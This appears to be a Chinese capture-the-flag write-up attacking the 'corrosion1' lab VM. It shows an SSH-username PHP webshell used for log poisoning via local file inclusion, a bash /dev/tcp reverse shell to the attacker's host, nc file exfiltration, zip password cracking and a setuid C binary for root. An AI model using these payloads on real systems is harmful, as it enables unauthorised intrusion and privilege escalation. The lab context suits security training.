# corrosion靶场1

## 前言

靶机：`corrosion靶场1`

攻击：`kali`


## 主机发现

使用`arp-scan -l`发现主机IP，这里直接查看虚拟机需要登录，不过官方并没有提供密码，所以，扫描出IP地址




## 信息收集

使用`nmap`查看端口及服务




访问80端口，`apache2`默认界面，访问页面源码，没有有价值的东西




目录扫描，扫出两个路径




访问`bolg-post`路径查看，

一段留言和一张图片，页面源码中提供当前路径下有`image.jpg`图像，其他暂无




那么对该路径下，再做一次扫描

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.1.30/blog-post/FUZZ -e .jpg,txt,html,png,xml 
```




发现两个重定向文件，访问`uploads`后发现还是原界面，一段文字，一张图，无其他有用东西

不过，访问`archives`，发现有一个`php`文件




下载，留着后面做分析，但是这里使用`wget`下载，发现是空的，打开发现，原来该PHP代码在网页中是一点资源都没有，全都是PHP代码，所以无法下载，不过记住了


访问另一个`tasks`，有一个`task_todo.txt`文件，直接下载并查看内容



发现文件内容是需要完成的任务，表示应该还没有完成的，不过这里需要记住，可能设置的是定时任务。




信息小结：

1. 22端口采用`OpenSSH 8.4p1 协议 2.0`
2. 80端口采用`apache 2.4.46`
3. 系统为`linux 4.x|5.x`
4. 80端口网址中包含名称`randy`
5. 80端口`/blog-post/archives`目录下有一个PHP文件
6. 80端口`/tasks`目录下有TXT文件


## 漏洞寻找利用


可以先使用`hydra`对名字`randy`尝试进行ssh爆破，先放在这里，然后去寻找其他的方法

爆破不行，考虑其他方法，发现之前那个PHP文件虽然不能下载，但是一般PHP文件都会有参数接收的。可能会有传参，使用burp进行爆破尝试，测试发现这个参数不管是什么都不会出错，说明不在乎

那么假设这里的参数可以是本地文件包含的话，进行测试，`/etc/passwd`

因为我这里虚拟机中的kali使用burp爆破有点卡，所以在物理机进行测试

这里确定是参数为`file`




可以使用，那么之前的`tasks_todo.txt`文件中有提到修改`auth.log`的权限，去访问看看，在其中可以看到登录信息，这是之前使用`hydra`爆破留下的痕迹，当时用户的用户名就是`randy`，可以发现这里留有痕迹




既然留下用户名登录时的痕迹，是否可以写一个`webshell`进入，然后连接成功呢， 进行测试

这里首先测试发现`kali`一直提示存在不合理的字符

```shell
ssh '<?php system($_GET['cmd']);?>'@192.168.1.30
```

所以，采用别名方法绕过，编辑`~/.ssh/config`文件，在其中编写

```shell
Hostname myserver
	Hostname 192.168.1.30
	User	'<?php system($_GET['cmd']);?>'
```

这时候再使用`ssh`连接即可

```shell
ssh myserver
```




测试是否成功，注意前面是通过`file`的传参，所以这里要使用`&`调用`cmd`测试




尝试进行一个反弹`shell`

在kali上开启监听

```shell
nc -lvvp 9999
echo "bash -i >& /dev/tcp/192.168.1.16/9999 0>&1" | bash
然后把上面的echo一串进行URL编码处理
```




## 提权

使用`find`查看有无可用的SUID权限

```shell
find / -perm -u=s -type f 2>/dev/null
```




发现有`sudo`，进行尝试，发现都不行




使用`find`寻找一些关键字吧，如`user`、`pass`、`back`等，因为数据太多，最终在`back*`搜索中，找到一个可疑目录




切换到目录发现有一个`user`开头的，很可以，进行下载




尝试解压，发现需要密码，测试发现靶机有`nc`可用，直接通过`nc`下载



```shell
在靶机上，通过nc把zip包发送给kali地址的7777端口
nc 192.168.1.16 7777 < user_backup.zip
在kali上开启，通过监听7777端口，并把传递信息保存在user_backup.zip
nc -lv -p 7777 > user_backup.zip
```

使用`fcrackzip`进行破解

```shell
fcarckzip -u -D -p /usr/share/wordlists/rockyou.txt user_backup.zip
-u 暴力破解
-D 字典模式
-p 指定字典
```




或者使用`zip2john`把zip文件改为`john`可识别的类型




然后使用`john`进行破解




知道密码后进行解压，获取ssh密钥以及密码和一个`c`语言编程




查看`/home`目录下有哪些用户



尝试使用`ssh`连接`randy`，并用获取到的密码登录




使用`find`查找`SUID`权限

```shell
find / -perm -u=s -type f 2>/dev/null
```

发现和上面一样，有一个`sudo`比较特殊，找到一个可以以`root`执行的文件，且当前用户不被允许以`root`运行`/bin/bash`




发现没有写权限，但是有`s`也就是特权，想起在之前解压文件时，提供了一个名称一样的文件




查看之前的文件，可以看到是进行一些设置，`0`表示特权，比如`root`就是`0`，整体就是设置提权的，然后执行下面的命令，如果在其中添加一个调动`shell`的是否可行




修改代码

```c
#include<unistd.h>
#include<stdlib.h>	//c语言中的标准头文件
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash -i");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}

```

然后在靶机上创建一个`c`文件，并把上面内容复制其中，发现`vim`不可用，可以使用其他的，如`vi、nano`等




然后使用`gcc`命令进行编译，注意，编译出的文件要与可执行特权的文件名一致`easysysinfo`

而且可以看到这里的`s`特权已经没有了




但是使用`sudo -l`却表示，这里还是可以的




以`sudo`执行文件，发现提权成功

